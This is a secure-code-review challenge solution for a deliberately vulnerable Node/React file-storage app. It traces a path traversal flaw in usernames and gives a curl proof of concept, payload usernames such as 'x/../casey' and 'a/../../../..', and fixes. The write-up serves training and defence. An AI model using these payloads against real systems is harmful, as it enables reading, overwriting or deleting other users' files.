

# Secure Code Review — Challenge #6: FileDrop — Solution

<table>
<tr>
<td width="100%">

<!-- TODO: YouTube walkthrough — replace VIDEO_ID once recorded/published -->
<a href="https://youtu.be/VIDEO_ID">
  
</a>

### 🎥 This solution is explained in detail on my YouTube Channel  [AppSec Untangled](https://www.youtube.com/@AppSecUntangled)

Full walkthrough of the review process, the finding, and the fix.

[](https://youtu.be/VIDEO_ID)

<!-- TODO: replace the badge link above with the real video URL when published -->

</td>
</tr>
</table>

---

# Part I: Review Steps

*The methodology followed to build a mental model of the system before looking for the flaw. It
mirrors the [suggested methodology](../../README.md#suggested-methodology): scope → entry points →
sinks → threat model → mitigation review.*

## 1. 🗺️ Application scope & architecture

FileDrop is a personal file-storage service: sign in, upload files, list them, download them, delete
them. User records live in **MongoDB**; the file *bytes* live on the container's filesystem. The
backend is **Express.js** and the client is a **React SPA** the same server hosts. Auth is
**JWT bearer tokens** — there is no session cookie, so cross-site requests arrive with no ambient
credential. The one asset the whole design promises to protect is stated plainly in the README:
*"Every account has its own storage area on disk; the files in it are private to that account."*
The entire review comes down to whether that boundary actually holds.

### 🚀 What happens when the app starts

1. **`docker-compose up`** brings up two containers — a stock **`mongo:6.0`** image (a black box we
   trust) and our **`app`** built from the [`Dockerfile`](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/006-filedrop/Dockerfile). The Dockerfile compiles the React client in a
   [first stage](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/006-filedrop/Dockerfile#L1-L10), then runs `node app.js` as a non-root `appuser`, with per-account
   storage rooted at `STORAGE_ROOT=/app/data/files` ([Dockerfile#L32-L39](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/006-filedrop/Dockerfile#L32-L39)).

2. **`app.js` boots Express.** It refuses to start without a `JWT_SECRET`
   ([app.js#L19-L22](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/006-filedrop/app.js#L19-L22)) — no in-code fallback secret, which is exactly right. Then it wires up
   global middleware:

   ```js
   app.use(express.json());
   app.use(express.urlencoded({ extended: true }));
   app.use(mongoSanitize());           // strips $ and . from KEYS → blocks NoSQL operator injection
   ```
   [app.js#L34-L36](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/006-filedrop/app.js#L34-L36). [`express-mongo-sanitize`](https://www.npmjs.com/package/express-mongo-sanitize)
   removes keys containing `$` or `.` so a body like `{"username": {"$ne": null}}` can't smuggle a
   query operator into Mongo. A **strict CSP** is set on every response
   ([app.js#L39-L47](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/006-filedrop/app.js#L39-L47)): `default-src 'self'`, `object-src 'none'`, `frame-ancestors 'none'`.

3. **Routes are mounted.** `/api/auth` is public; **`/api/files` is guarded by `requireAuth`**
   ([app.js#L54-L55](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/006-filedrop/app.js#L54-L55)). The React build is served statically, with a catch-all that returns
   `index.html` for non-`/api/` paths ([app.js#L89-L100](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/006-filedrop/app.js#L89-L100)).

4. **`seedDemoData`** creates two accounts on first boot — `demo` and `casey` — and writes each a
   couple of files under `STORAGE_ROOT/<username>/`. Casey's set includes a deliberately juicy
   `private-keys-backup.txt` ([src/store/seed.js#L18-L28](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/006-filedrop/src/store/seed.js#L18-L28)). That file is the
   "flag" for a cross-account read.

### 🔄 What happens for the main use cases

Follow one user through the journeys that make up the whole app — open, log in, upload, download. The pattern is always the
same: a React component calls a tiny wrapper in [`web/src/api.js`](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/006-filedrop/web/src/api.js), which attaches the
bearer token and hits a JSON route, which (for `/api/files`) first clears `requireAuth` and then
touches MongoDB and/or the filesystem.

**① Open the app.** With no token, `App` renders `<AuthPage>`; with one, it calls `api.me()` to
rehydrate the session and renders `<Dashboard>` ([web/src/App.jsx#L10-L43](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/006-filedrop/web/src/App.jsx#L10-L43)). The token
itself lives in `localStorage` under `filedrop.token` ([web/src/api.js#L1-L13](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/006-filedrop/web/src/api.js#L1-L13)).

**② Log in.** `AuthPage.handleSubmit` calls `api.login({ username, password })`
([web/src/pages/AuthPage.jsx#L24-L38](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/006-filedrop/web/src/pages/AuthPage.jsx#L24-L38)), which `POST`s the JSON body to
`/api/auth/login` ([web/src/api.js#L47-L48](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/006-filedrop/web/src/api.js#L47-L48)). The **login route** looks the user up by
username, verifies the password with `bcrypt.compare`, and — only on success — mints a 24 h HS256 JWT:

   ```js
   const user = await db.findUserByUsername(username);          // database.js:68
   const passwordMatch = await bcrypt.compare(password, user.passwordHash);
   if (!passwordMatch) return res.status(401).json({ error: 'Invalid credentials' });
   const token = issueToken(user);                              // { userId, username, email }
   ```
   [src/routes/auth.js#L102-L112](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/006-filedrop/src/routes/auth.js#L102-L112) · lookup in
   [database.js#L68-L71](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/006-filedrop/src/store/database.js#L68-L71) · token shape in
   [auth.js#L20-L26](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/006-filedrop/src/routes/auth.js#L20-L26). Back in the browser,
   `onAuthenticated` stores the returned token with `setToken(...)`
   ([web/src/App.jsx#L22-L25](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/006-filedrop/web/src/App.jsx#L22-L25), [api.js#L7-L13](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/006-filedrop/web/src/api.js#L7-L13)).
   (Register is the same shape, with validation up front: length 3–32, email regex, password ≥8 —
   [auth.js#L43-L56](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/006-filedrop/src/routes/auth.js#L43-L56).)

**③ Upload a file.** Dropping or picking a file calls `api.uploadFile(file)`
([web/src/pages/Dashboard.jsx#L30-L52](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/006-filedrop/web/src/pages/Dashboard.jsx#L30-L52)), which packs it into `FormData` and
`POST`s `/api/files` ([api.js#L51-L55](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/006-filedrop/web/src/api.js#L51-L55)). Every call through `request()`
attaches `Authorization: Bearer <token>` ([api.js#L17-L21](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/006-filedrop/web/src/api.js#L17-L21)). The request first
passes **`requireAuth`** — which verifies the JWT (algorithm pinned to `HS256`, no `alg:none`
bypass), re-loads the user from Mongo by `decoded.userId`, and sets `req.user = { id, username, email }`
([src/middleware/auth.js#L26-L38](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/006-filedrop/src/middleware/auth.js#L26-L38)) — then reaches multer, which
computes **where the bytes land**:

   ```js
   destination(req, file, cb) {
     const userDir = userDirectory(req);          // path.join(STORAGE_ROOT, req.user.username)
     fs.mkdirSync(userDir, { recursive: true });
     cb(null, userDir);
   },
   filename(req, file, cb) {
     const safeName = path.basename(file.originalname || '');   // last segment only
     cb(null, safeName || `upload-${Date.now()}`);
   }
   ```
   multer config in [files.js#L18-L31](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/006-filedrop/src/routes/files.js#L18-L31), the `userDirectory` helper in
   [files.js#L14-L16](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/006-filedrop/src/routes/files.js#L14-L16), and the `201` response in
   [files.js#L71-L92](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/006-filedrop/src/routes/files.js#L71-L92). Notice the asymmetry already visible here: the
   *filename* is run through `path.basename`, but the *directory* is built straight from
   `req.user.username`.

**④ Download a file.** Clicking a row calls `api.downloadFile(name)`
([web/src/pages/Dashboard.jsx#L64-L70](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/006-filedrop/web/src/pages/Dashboard.jsx#L64-L70)), which `fetch`es
`/api/files/<name>/download` with the bearer header and saves the returned blob
([api.js#L57-L73](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/006-filedrop/web/src/api.js#L57-L73)). After `requireAuth`, the **download route** strips any
directory part from the filename, joins it onto the caller's directory, and streams it back as an
opaque attachment:

   ```js
   const filename = path.basename(req.params.filename);         // filename half: sanitized
   const filePath = path.join(userDirectory(req), filename);    // dir half: from req.user.username
   res.setHeader('Content-Type', 'application/octet-stream');
   res.download(filePath, filename);
   ```
   [src/routes/files.js#L95-L114](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/006-filedrop/src/routes/files.js#L95-L114). (List and delete follow the exact same
   `userDirectory(req)` pattern — [files.js#L59-L68](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/006-filedrop/src/routes/files.js#L59-L68),
   [files.js#L122-L140](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/006-filedrop/src/routes/files.js#L122-L140).)

**The asymmetry worth noticing.** Every file operation locates the caller's directory the *same* way —
`path.join(STORAGE_ROOT, req.user.username)` — and **there is no per-file ownership record in the
database.** Ownership is *implicit*: your files are "the files that happen to live in the folder named
after you." The security of the whole app therefore rests on one assumption — that
`req.user.username` is a single, safe path segment.



That is the asymmetry the rest of the review turns on — and §4&5 shows why the `username` segment of
that `path.join` is where it breaks.

## 2. 🚪 Entry points

- `POST /api/auth/register` — *auth:* none — takes `username`, `email`, `password` (JSON body).
- `POST /api/auth/login` — *auth:* none — takes `username`, `password`.
- `GET /api/auth/me` — *auth:* bearer — no input beyond the token.
- `GET /api/files` — *auth:* bearer — no body; the *identity* (`req.user.username`) selects the dir.
- `POST /api/files` — *auth:* bearer — multipart `file` (name + bytes).
- `GET /api/files/:filename/download` — *auth:* bearer — `:filename` path param.
- `DELETE /api/files/:filename` — *auth:* bearer — `:filename` path param.

## 3. 🎯 Dangerous sinks (code & dependencies)

- **S1 — filesystem *path construction* for every file op** → path traversal / arbitrary file
  read-write (CWE-22). The on-disk path is `path.join(STORAGE_ROOT, req.user.username, <filename>)`,
  and **two inputs feed it** — the `username` segment ([files.js#L14-L16](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/006-filedrop/src/routes/files.js#L14-L16))
  and the `<filename>` segment (the multer `filename` callback from the upload's `originalname`,
  [files.js#L24-L30](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/006-filedrop/src/routes/files.js#L24-L30), and the `:filename` URL param on download/delete,
  [files.js#L99-L104](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/006-filedrop/src/routes/files.js#L99-L104)). This is a single sink with two feeding
  segments — §4&5 checks whether *each* segment is sanitized.
- **S2 — Mongo `findOne` queries** built from the login/register body → NoSQL injection.
  [src/store/database.js#L68-L84](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/006-filedrop/src/store/database.js#L68-L84).
- **S3 — React rendering of `user.username`** in the dashboard → potential stored XSS.
  [web/src/pages/Dashboard.jsx#L80-L82](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/006-filedrop/web/src/pages/Dashboard.jsx#L80-L82).

## 4 & 5. 🧩 Threat model & 🔍 mitigation review

### 🔓 Business-logic vulnerabilities

- **AuthN → ✅.** `/api/files` is mounted behind `requireAuth`; JWT alg is pinned to `HS256`; the
  secret is mandatory. No `alg:none` or default-secret weakness.

- **No separate authorization / IDOR flaw.** There is **no user-supplied object id** anywhere in the
  API — no `/files/:id` fetched from a shared store where an ownership check could be missing. Each
  route only ever addresses "the caller's own directory," and that directory is derived from the
  caller's identity. The isolation between accounts is *real by design*; what breaks it is the
  **source-to-sink flaw below** (a username that traverses into another directory), not an absent
  access-control check on an object reference. Calling this "IDOR/BOLA" would misattribute the
  mechanism — the fix is input validation / not trusting a string as a path, not adding an owner
  comparison.

### 💉 Source-to-sink (injection) vulnerabilities

- **S2 — NoSQL injection → ✅ mitigated.** `mongoSanitize()` strips `$`/`.` keys before any handler
  runs ([app.js#L36](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/006-filedrop/app.js#L36)), and both `/register` and `/login` reject non-string
  `username`/`password` with explicit `typeof` checks
  ([auth.js#L39-L41](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/006-filedrop/src/routes/auth.js#L39-L41),
  [auth.js#L98](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/006-filedrop/src/routes/auth.js#L98)). An operator object can't survive to reach
  `findOne`. See the [OWASP NoSQL injection cheat sheet](https://cheatsheetseries.owasp.org/cheatsheets/Testing_for_NoSQL_injection.html).

- **S3 — stored XSS via username → ✅ mitigated.** React escapes text interpolated as
  `{user.username}` ([React docs — JSX Prevents Injection Attacks: "React DOM escapes any values embedded in JSX before rendering them"](https://legacy.reactjs.org/docs/introducing-jsx.html#jsx-prevents-injection-attacks)),
  so a username like `` renders as inert text. Filenames sent to the API are
  `encodeURIComponent`-wrapped ([web/src/api.js#L56-L58](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/006-filedrop/web/src/api.js#L56-L58)), and downloads are
  forced to `application/octet-stream` with `X-Content-Type-Options: nosniff`
  ([files.js#L112-L114](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/006-filedrop/src/routes/files.js#L112-L114)) under a strict CSP — an uploaded `.html`/`.svg`
  can't execute on-origin. This is a well-built decoy.

- **S1 — path traversal into the filesystem path sink → ❌ NOT mitigated. *This is the planted
  flaw.*** The sink is `path.join(STORAGE_ROOT, req.user.username, <filename>)`, and its two feeding
  segments get **opposite** treatment:
  - **`<filename>` segment → ✅ closed.** The multer `filename` callback runs
    `path.basename(file.originalname)`, so `../../etc/passwd` collapses to `passwd`
    ([files.js#L24-L30](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/006-filedrop/src/routes/files.js#L24-L30)); download/delete *also* run
    `path.basename(req.params.filename)` and reject `.`/`..`
    ([files.js#L99-L100](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/006-filedrop/src/routes/files.js#L99-L100)). [`path.basename`](https://nodejs.org/api/path.html#pathbasenamepath-suffix)
    returns the last segment only. **This is the misdirection** — the reviewer's eye is drawn to
    `:filename`, the one segment that *is* safe.
  - **`username` segment → ❌ open (the bug).** The username is **never constrained to a single path
    segment.** Registration validates only its *length* (3–32 chars), never its *characters*
    ([auth.js#L43-L48](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/006-filedrop/src/routes/auth.js#L43-L48)) — slashes and `..` are perfectly
    legal, and `database.js` only `trim()`s. So a username such as `x/../casey` is a *distinct*
    account (Mongo's unique index sees a different string), but `path.join(STORAGE_ROOT, "x/../casey")`
    **normalizes to `STORAGE_ROOT/casey`** — the victim's directory.

  Untrusted input reaches a path sink and changes which file the operation targets: that is path
  traversal (CWE-22), source-to-sink — *not* a missing ownership check on a looked-up object. Every
  developer comment guards the filename half and none guards the username half
  ([files.js#L25-L28](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/006-filedrop/src/routes/files.js#L25-L28)). See
  [OWASP — Path Traversal](https://owasp.org/www-community/attacks/Path_Traversal) and CWE-22.

---

# Part II: Solution

## 6. 🧪 The vulnerability & exploitation

- **Class:** **Path traversal (source-to-sink injection)** — untrusted input (the username) reaching
  a filesystem path-construction sink. **CWE-22** (Improper Limitation of a Pathname to a Restricted
  Directory), with the underlying **CWE-73** (External Control of File Name or Path). The *effect* is
  cross-tenant read/write/delete, but the *mechanism* is injection, not a missing object-level
  authorization check.
- **Root cause:** username accepted with no character restriction —
  [src/routes/auth.js#L43-L48](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/006-filedrop/src/routes/auth.js#L43-L48).
- **Sink:** `path.join(STORAGE_ROOT, req.user.username)` —
  [src/routes/files.js#L14-L16](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/006-filedrop/src/routes/files.js#L14-L16).

### 🧠 Why it works

The app protects the wrong half of the path. Two user inputs are concatenated into the storage path:

| Path component | Source | Sanitized? |
| -------------- | ------ | ---------- |
| `req.user.username` | registration (comes from the JWT) | ❌ **no** — only length is checked |
| `:filename` | download/delete URL, upload part name | ✅ `path.basename` + `.`/`..` reject |

`path.join` **normalizes `..` segments**, so any `..` inside the username walks up out of the
attacker's own folder:

| Registered username | `path.join('/app/data/files', username)` resolves to | Effect |
| ------------------- | ---------------------------------------------------- | ------ |
| `x/../casey` | `/app/data/files/casey` | full read/write/delete of **casey's** files |
| `a/../../../..` | `/` (climbs out of `STORAGE_ROOT` entirely) | list/read/write **anywhere the process can reach** |

**Why a plain `../casey` does *not* work:** `path.join('/app/data/files', '../casey')` resolves to
`/app/data/casey` — *outside* the storage root, an empty/non-existent dir. The payload has to
normalize back *into* the root, which is why the leading `x/` matters: `x/../casey` cancels to
`casey` **inside** `STORAGE_ROOT`.

Because ownership is *only* "which folder is named after me," and the folder name is attacker-chosen,
one account can *become* another — or escape the storage tree completely. The unique index on
`username` doesn't help: `x/../casey` and `casey` are different strings to Mongo but the *same
directory* on disk.

### 🚀 Exploitation steps / PoC

Verified against the running app (seeded `casey` owns `private-keys-backup.txt`).

```bash
B=http://localhost:3000

# 1) Register an attacker whose USERNAME traverses into casey's directory.
#    "x/../casey" is 10 chars → passes the 3–32 length check; slashes/.. are not filtered.
curl -s -X POST $B/api/auth/register -H 'Content-Type: application/json' \
  -d '{"username":"x/../casey","email":"atk@evil.com","password":"password123"}'
# → {"message":"User registered successfully","token":"...","user":{"username":"x/../casey",...}}

TOKEN=$(curl -s -X POST $B/api/auth/login -H 'Content-Type: application/json' \
  -d '{"username":"x/../casey","password":"password123"}' | jq -r .token)

# 2) List "my" files — actually casey's private files.
curl -s $B/api/files -H "Authorization: Bearer $TOKEN"
# → {"files":[{"name":"private-keys-backup.txt",...},{"name":"q3-forecast.csv",...}], ...}

# 3) Download casey's secret.
curl -s "$B/api/files/private-keys-backup.txt/download" -H "Authorization: Bearer $TOKEN"
# → reminder: rotate the staging API token before the audit
```

Real output captured during review:

```
=== CONTROL: a normal attacker sees an empty drop ===
{"files":[],"usage":{"usedBytes":0,"quotaBytes":104857600}}

=== PAYLOAD: username "x/../casey" ===
{"files":[{"name":"private-keys-backup.txt","size":56,...},
          {"name":"q3-forecast.csv","size":68,...}],"usage":{"usedBytes":124,...}}

=== download private-keys-backup.txt ===
reminder: rotate the staging API token before the audit
```

Write and full-tree escape were also confirmed: uploading as `x/../casey` **plants a file inside
casey's folder**, and registering `a/../../../..` lets the account **list and download files above
`STORAGE_ROOT`** (a control secret written one level up read back successfully). Delete works the same
way — an attacker can destroy any account's files.

> ✅ **Verified:** cross-account **read** (listed + downloaded casey's `private-keys-backup.txt`),
> **write** (planted `pwn.txt` in casey's dir), and **escape above the storage root** (read a secret
> written outside `STORAGE_ROOT`), all with a freshly registered account and no victim interaction.

**Impact:** complete break of the app's single security promise. Any anonymous user can register,
choose a username that resolves to any other account's folder (or the filesystem root the process can
reach), and **read, overwrite, or delete** arbitrary files — full loss of confidentiality,
integrity, and availability for every tenant.

## 7. 🛠️ Suggested fix

**Primary fix — constrain the username to a safe, single path segment (allowlist), and never trust
it as a path.** Validate at registration *and* treat the stored username as opaque:

```js
// src/routes/auth.js — reject anything that isn't a plain identifier
const USERNAME_PATTERN = /^[a-zA-Z0-9_-]+$/;   // no '/', no '.', no '..'
if (!USERNAME_PATTERN.test(trimmedUsername)) {
  return res.status(400).json({ error: 'Username may contain only letters, numbers, _ and -' });
}
```

**Better still — decouple the on-disk name from the username entirely.** Give each account an opaque
directory keyed by its immutable `userId` (a Mongo ObjectId, already validated), so a user-controlled
string never touches the path:

```js
function userDirectory(req) {
  return path.join(STORAGE_ROOT, req.user.id);   // ObjectId hex — not attacker-chosen text
}
```

**Defense-in-depth (do these too — never rely on a single control):**

1. **Contain the resolved path.** After building any path, assert it stays under its base:
   `const dir = path.resolve(STORAGE_ROOT, key); if (dir !== STORAGE_ROOT && !dir.startsWith(STORAGE_ROOT + path.sep)) throw ...` — the canonical Node guard against traversal.
2. **Apply the containment check at the multer `destination` callback too**, not only in the
   route bodies — that callback runs *before* the handler, so it must reject a traversing path
   before any file is written.
3. **Record ownership in the database.** Store a `files` collection keyed by `{ owner: userId,
   name }` and authorize each download/delete against it, instead of inferring ownership from a
   folder name.
4. **Apply the same allowlist / `path.basename` discipline to the stored filename** (already done for
   filenames — keep it) and reject empty/`.`/`..`.
5. **Keep the length check**, but pair it with the character allowlist — length alone was the trap.

## **Real world examples 🌍** 

- **[Zip Slip meets Artifactory: A Bug Bounty Story](https://karmainsecurity.com/zip-slip-meets-artifactory-a-bug-bounty-story)** —
  a source-code audit finds JFrog Artifactory joining an archive entry's **name** onto a path verbatim;
  a crafted entry name (`../../.../webapps/rce.war`) escapes to Tomcat's auto-deploy dir → RCE. Same
  root cause as FileDrop (a *name* trusted as a path segment), found the same way: reading the code.
- **[Excessive Expansion: critical vulnerabilities in Jenkins](https://www.sonarsource.com/blog/excessive-expansion-uncovering-critical-security-vulnerabilities-in-jenkins/)**
  (CVE-2024-23897) — untrusted input reaches a **hidden file-path sink inside a library**: args4j
  silently reads any CLI arg starting with `@` as a file, so `@/etc/passwd` becomes arbitrary file
  read. Different vector, same reviewer's lesson as `path.join` normalizing `..` — know what each
  library call does with your input.

## **More resources** 📚

- **CWE-22 — Path Traversal:** <https://cwe.mitre.org/data/definitions/22.html>; **CWE-73 — External
  Control of File Name or Path:** <https://cwe.mitre.org/data/definitions/73.html>.
- **OWASP — Path Traversal:** <https://owasp.org/www-community/attacks/Path_Traversal>, and the
  **File Upload / Input Validation** guidance in the OWASP Cheat Sheet Series.
- **OWASP — Input Validation Cheat Sheet** (allowlist user input; never trust a string used to build
  a path): <https://cheatsheetseries.owasp.org/cheatsheets/Input_Validation_Cheat_Sheet.html>.
- **Node.js `path` docs** (`join` normalizes `..`; `basename` returns the last segment):
  <https://nodejs.org/api/path.html>.
- **Hands-on:** PortSwigger Web Security Academy — *Path traversal* labs:
  <https://portswigger.net/web-security/file-path-traversal>.

**Takeaway:** trace *every* untrusted input to the sink it reaches — a username is not just a label,
it's data that here flows straight into a filesystem path. This is a source-to-sink path traversal,
and a length check is not sanitization. FileDrop guarded the filename (the obvious half of the path)
and left the *username* (the other half of the very same path) completely open. Never trust a
user-controlled string as a path segment: validate it against a strict allowlist, or — better — key
storage off an opaque server-generated id so no user-controlled text ever touches the path.
